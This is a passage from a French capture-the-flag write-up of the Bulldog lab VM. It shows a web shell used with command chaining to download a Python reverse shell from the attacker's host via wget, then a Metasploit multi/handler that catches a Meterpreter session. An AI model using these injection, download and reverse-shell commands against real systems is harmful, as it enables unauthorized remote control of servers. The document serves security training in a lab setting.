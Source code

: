 De retour sur le Web-Shell, le reverse-shell Python est déposé sur le serveur via [wget](https://www.gnu.org/software/wget/).

```console
Command : ls && wget http://192.168.56.101:8000/shell.py
bulldog
db.sqlite3
manage.py

Command : ls
bulldog
db.sqlite3
manage.py
shell.py
```

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 4444.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole
                                                  
--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444
```

De retour une nouvelle fois sur le Web-Shell, le fait de lancer la commande _ls && python shell.py_ amorce la connexion.

```console 
msf exploit(multi/handler) > [*] Sending stage (50248 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:60400) at 2018-01-01 01:01:01 +0100
[*] Sending stage (50248 bytes) to 192.168.56.102

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                      Information       Connection
  --  ----  ----                      -----------       ----------
  1         meterpreter python/linux  django @ bulldog  192.168.56.101:4444 -> 192.168.56.102:60402 (192.168.56.102)
```
